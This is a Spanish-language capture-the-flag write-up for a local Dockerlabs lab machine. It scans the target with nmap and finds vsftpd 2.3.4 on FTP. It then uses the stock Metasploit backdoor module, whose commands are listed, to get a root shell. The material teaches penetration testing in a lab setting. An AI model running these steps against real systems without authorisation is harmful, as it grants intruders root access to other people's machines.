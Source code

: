 # firsthacking

* Máquina **atacante** -> 172.17.0.1
* Máquina **objetivo** -> 172.17.0.2 | Linux :penguin:

### Escaneo de puertos

Realizamos un escaneo de puertos con *nmap* para ver puertos abiertos de la máquina **objetivo**:
```shell
nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 172.17.0.2
```
![escaneo](/Writeups_Dockerlabs/Capturas/2024-10-23_22-03.png)

Observamos que el servicio **ftp** que corre por el puerto **21** posee una versión con una vulnerabilidad conocida.

### Explotación

Vamos a *metasploit* y buscamos la vulnerabilidad por la versión `search vsftpd 2.3.4`:

![busqueda](/Writeups_Dockerlabs/Capturas/2024-10-23_22-19.png)

La seleccionamos (`use`) y vemos los parámetros que tenemos que completar (`show options`):

![opciones](/Writeups_Dockerlabs/Capturas/2024-10-23_22-21.png)

Completamos el host remoto al que nos queremos conectar, seleccionamos el payload automático por defecto (cmd/unix/interact) y ejecutamos el **exploit**:

* set RHOSTS 172.17.0.2
* use 0
* exploit

Nos abre una sesión y obtenemos una shell ejecutando el comando `shell`:

![shell](/Writeups_Dockerlabs/Capturas/2024-10-23_22-29.png)

Si ejecutamos el comando `whoami`, vemos que somos **root** :triangular_flag_on_post:

![whoami](/Writeups_Dockerlabs/Capturas/2024-10-23_22-31.png)